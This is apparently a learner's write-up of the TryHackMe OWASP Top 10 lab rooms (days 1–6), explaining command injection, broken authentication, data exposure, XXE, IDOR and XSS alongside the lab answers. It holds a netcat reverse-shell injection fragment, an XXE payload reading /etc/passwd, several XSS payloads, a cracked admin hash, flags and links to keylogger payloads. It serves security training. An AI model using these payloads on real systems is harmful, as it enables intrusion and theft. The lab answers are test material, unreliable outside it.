

# \[Writeups\] Try Hack Me – OWASP Top 10 Challenge for 10 Days

## **Day 1 – OS Command Injection**

Command Injection occurs when server-side code \(like PHP\) in a web application makes a system call on the hosting machine. It is a web vulnerability that allows an attacker to take advantage of that made system call to execute operating system commands on the server. Sometimes this won't always end in something malicious, like a _whoami_ or just reading of files. That isn't too bad. But the thing about command injection is it opens up many options for the attacker. The worst thing they could do would be to spawn a reverse shell to become the user that the webserver is running as. 

A simple `;nc -e /bin/bash` is all that's needed and they own your server. some variants of `netcat` don't support the -e option. You can use a list of these reverse shells as an alternative.

Once the attacker has a foothold on the web server, they can start the usual enumeration of your systems and start looking for ways to pivot around. Now that we know what command injection is, we'll start going into the different types and how to test for them.

**What is Active Command Injection?**

Blind command injection occurs when the system command made to the server does not return the response to the user in the HTML document. Active command injection will return the response to the user. It can be made visible through several HTML elements.

_**\#1. What strange text file is in the website root directory?**_

Using the`ls -l` command I can see all of the files in root directory. Then, I’ve got a file name `drpepper.txt`.

_**\#2. How many non-root/non-service/non-daemon users are there?**_

In this, I’ve used this command: `compgen -u | wc -l`.

* compgen is bash built-in command and it will show all available commands, aliases, and functions for you
* -u: means names of userAlias names
* wc stands for word count. As the name implies, it is mainly used for counting purpose.
* -**l:** This option prints the **number of lines** present in a file. With this option wc command displays two-columnar output, 1st column shows the number of lines present in a file, and 2nd itself represents the file name.

_**\#3. What user is this app running as?**_

Using `id` command then I’ve got `www-data`

_**\#4. What is the user's shell set as?**_

I’ve tried to this command `less /etc/passwd` to show all of the users in the system, then I got users’ shell set as `/usr/sbin/nologin`.

_**\#5. What version of Ubuntu is running?**_

Using the `lsb_release -a` command to show some information about the system then I’ve got “Distributor ID: Ubuntu Description: Ubuntu 18.04.4 LTS Release: 18.04 Codename: bionic”.

_**\#6. Print out the MOTD. What favorite beverage is shown?**_

motd also is known as "Message Of The Day" daemon. The motd message can be customized to fit the individual needs of each user or administrator by modifying the `/etc/motd` file or script within the `/etc/update-motd.d`directory.

I’ve tried `ls /etc/update-motd.d/` then I got `00-header 10-help-text 50-landscape-sysinfo 50-motd-news 80-esm 80-livepatch 90-updates-available 91-release-upgrade 92-unattended-upgrades 95-hwe-eol 97-overlayroot 98-fsck-at-reboot 98-reboot-required`

Then, I’ve used `cat /etc/update-motd.d/00-header` to show all of the information in `00-header`, so I got it `#!/bin/sh # # 00-header - create the header of the MOTD # Copyright (C) 2009-2010 Canonical Ltd. # # Authors: Dustin Kirkland # # This program is free software; you can redistribute it and/or modify # it under the terms of the GNU General Public License as published by # the Free Software Foundation; either version 2 of the License, or # (at your option) any later version. # # This program is distributed in the hope that it will be useful, # but WITHOUT ANY WARRANTY; without even the implied warranty of # MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the # GNU General Public License for more details. # # You should have received a copy of the GNU General Public License along # with this program; if not, write to the Free Software Foundation, Inc., # 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA. [ -r /etc/lsb-release ] && . /etc/lsb-release if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then # Fall back to using the very slow lsb_release utility DISTRIB_DESCRIPTION=$(lsb_release -s -d) fi printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"` **`DR PEPPER`** `MAKES THE WORLD TASTE BETTER!`

## **Day 2 – Broken Authentication**

Authentication and session management constitute the core components of modern web applications. Authentication allows users to gain access to web applications by verifying their identities. The most common form of authentication is using a username and password mechanism. A user would enter these credentials, the server would verify them. If they are correct, the server would then provide the users’ browser with a session cookie. A session cookie is needed because web servers use HTTP\(S\) to communicate which is stateless. Attaching session cookies means that the server will know who is sending what data. The server can then keep track of the users' actions.

* _**Brute force attacks**_: If a web application uses usernames and passwords, an attacker is able to launch brute force attacks that allow them to guess the username and passwords using multiple authentication attempts.
* _**Use of weak credentials**_: web applications should set strong password policies. If applications allow users to set passwords such as ‘password1’ or common passwords, then an attacker is able to easily guess them and access user accounts. They can do this without brute-forcing and multiple attempts.
* _**Weak Session Cookies**_: Session cookies are how the server keeps track of users. If session cookies contain predictable values, an attacker can set their own session cookies and access users’ accounts.

There can be various mitigation for broken authentication mechanisms depending on the exact flaw:

* To avoid password guessing attacks, ensure the application enforces a strong password policy.
* To avoid brute force attacks, ensure that the application enforces an automatic lockout after a certain number of attempts. This would prevent an attacker from launching more brute force attacks.
* Implement Multi-Factor Authentication - If a user has multiple methods of authentication, for example, using username and passwords and receiving a code on their mobile device, then it would be difficult for an attacker to get access to both credentials to get access to their account.

## **Day 3 – Sensitive Data Exposure**

When a web app accidentally divulges sensitive data, we refer to it as "Sensitive Data Exposure". This is often data directly linked to customers \(e.g. names, dates-of-birth, financial information, etc\), but could also be more technical information, such as usernames and passwords. At more complex levels this often involves techniques such as a "Man in The Middle Attack", whereby the attacker would force user connections through a device which they control, then take advantage of weak encryption on any transmitted data to gain access to the intercepted information \(if the data is even encrypted in the first place...\). Of course, many examples are much simpler, and vulnerabilities can be found in web apps which can be exploited without any advanced networking knowledge. Indeed, in some cases, sensitive data can be found directly on the webserver itself...

\#_**1. Have a look around the web app. The developer has left themselves a note indicating that there is sensitive data in a specific directory. What is the name of the mentioned directory?**_

Open source code then I’ve got `<!-- Must remember to do something better with the database than store it in /assets... -->`

_**\#2. Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?**_

I’ve tried to access this URL “/assets” then I saw some local file in the database and had a webapp.db file.

\#3. Use the supporting material to access sensitive data. What is the password hash of the admin user?

I downloaded that file then using the “sqlite3” tool to open the file following these steps:

1. Sqlite3 webapp.db \(access to webapp.db\)
2. .tables \(show all of the tables\), then I got 2 tables.
3. SELECT \* FROM users; \(show all of the information in the users table\)

* 6eea9b7ef19179a06954edd0f6c05ceb

_**\#4. Crack the hash. What is the admin's plaintext password?**_

Then, using [https://crackstation.net/](https://crackstation.net/) tool to crack the hash password. =&gt; `qwertyuiop`

_**\#5. Log in as the admin. What is the flag?**_

Finally, I got the flag `THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}`

## **Day 4 – XML External Entity**

An XML External Entity \(XXE\) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service \(DoS\) attack or could use XXE to perform Server-Side Request Forgery \(SSRF\) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.

There are two types of XXE attacks: in-band and out-of-band \(OOB-XXE\).

1. An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.
2. out-of-band XXE attacks \(also called blind XXE\), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.

**What is XML?**

XML \(eXtensible Markup Language\) is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. It is a markup language used for storing and transporting data.

**Why we use XML?**

1. XML is platform-independent and programming language independent, thus it can be used on any system and supports the technology change when that happens.
2. The data stored and transported using XML can be changed at any point in time without affecting the data presentation.
3. XML allows validation using DTD and Schema. This validation ensures that the XML document is free from any syntax error.
4. XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.

**What is DTD?**

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

&lt;!DOCTYPE note \[ &lt;!ELEMENT note \(to,from,heading,body\)&gt; &lt;!ELEMENT to \(\#PCDATA\)&gt; &lt;!ELEMENT from \(\#PCDATA\)&gt; &lt;!ELEMENT heading \(\#PCDATA\)&gt; &lt;!ELEMENT body \(\#PCDATA\)&gt; \]&gt;

* !DOCTYPE note - Defines a root element of the document named note
* !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
* !ELEMENT to - Defines the **to** element to be of type "\#PCDATA"
* !ELEMENT from - Defines the **from** element to be of type "\#PCDATA"
* !ELEMENT heading - Defines the **heading** element to be of type "\#PCDATA"
* !ELEMENT body - Defines the body **element** to be of type "\#PCDATA"

**Payload:**

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]><root>&read;</root>`

## **Day 5 – Broken Access Control**

IDOR, or Insecure Direct Object Reference, is the act of exploiting a misconfiguration in the way user input is handled, to access resources you wouldn't ordinarily be able to access. IDOR is a type of access control vulnerability.

Flag: [http://10.10.181.221/note.php?note=0](http://10.10.181.221/note.php?note=0)

## **Day 6 –** Cross-site Scripting \(XSS\)

Cross-site scripting, also known as XSS is a security vulnerability typically found in web applications. It’s a type of injection that can allow an attacker to execute malicious scripts and have it execute on a victim’s machine.

A web application is vulnerable to XSS if it uses unsanitized user input. XSS is possible in JavaScript, VBScript, Flash, and CSS. There are three main types of cross-site scripting:

#### XSS Payloads

Remember, cross-site scripting is a vulnerability that can be exploited to execute malicious JavaScript on a victim’s machine. Check out some common payloads types used:

* Popup's \(`alert(&#x201C;Hello World&#x201D;)`\) - Creates a Hello World message popup on a users browser. Writing HTML \(`document.write`\) - Override the website's HTML to add your own \(essentially defacing the entire page\). 
* XSS Keylogger \([http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html](http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html)\) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage. 
* Port scanning \([http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html](http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html)\) - A mini local port scanner \(more information on this is covered in the TryHackMe XSS room\). 
* XSS-Payloads.com \([http://www.xss-payloads.com/](http://www.xss-payloads.com/)\) is a website that has XSS related Payloads, Tools, Documentation and more. You can download XSS payloads that take snapshots from a webcam or even get a more capable port and network scanner.

#### _\#2 Go to_ `http://MACHINE_IP/reflected` _``and craft a reflected XSS payload that will cause a popup saying "Hello"._

Payload: ``

#### _\#3 On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address._

Payload: `alert(window.location.hostname)`

#### _\#4 Now navigate to_ `http://MACHINE_IP/stored`_and make an account. Then add a comment and see if you can insert some of your own HTML._

Payload: `document.querySelector('code').textContent =thanks`

#### _\#5 On the same page, create an alert popup box appear on the page with your document cookies._

Payload: ``

#### _\#6 Change "XSS Playground" to "I am a hacker" by adding a comment and using JavaScript._

Payload: `document.querySelector('#thm-title').textContent = 'I am a hacker'`

